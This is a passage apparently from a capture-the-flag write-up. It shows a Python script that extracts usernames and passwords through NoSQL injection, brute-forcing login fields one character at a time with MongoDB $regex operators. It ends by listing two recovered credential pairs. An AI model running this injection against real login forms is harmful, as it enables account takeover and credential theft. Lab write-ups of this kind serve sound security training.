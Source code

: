 ```python3
			users += [currentUser]
	return users

def getPassword(user):
	escapeCharacters = """!"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~"""
	data['username[$regex]'] = user
	currentPassword = ''
	flag = 0
	while True:
		if flag == 1:
			break
		for i in printable:
			if i in escapeCharacters:
				data['password[$regex]'] = '^' + currentPassword + '\\' + i
			else:
				data['password[$regex]'] = '^' + currentPassword + i
			r = s.post(url, data)
			if "home" in r.url:
				currentPassword += i
				print(currentPassword)
				break
			elif i == printable[-1]:
				print("Password Found =======> "+user+':'+currentPassword, end='\n\n')
				flag = 1
				break
	return currentPassword

print("===============USERS====================")
usersFound = getUsers()
print('')

print("================PASSWORD=================")
for user in usersFound:
	password = getPassword(user)
```

we found 2 users and their passwords  
admin:t9KcS3>!0B#2  
mango:h3mXK8RhU~f{]f5H  
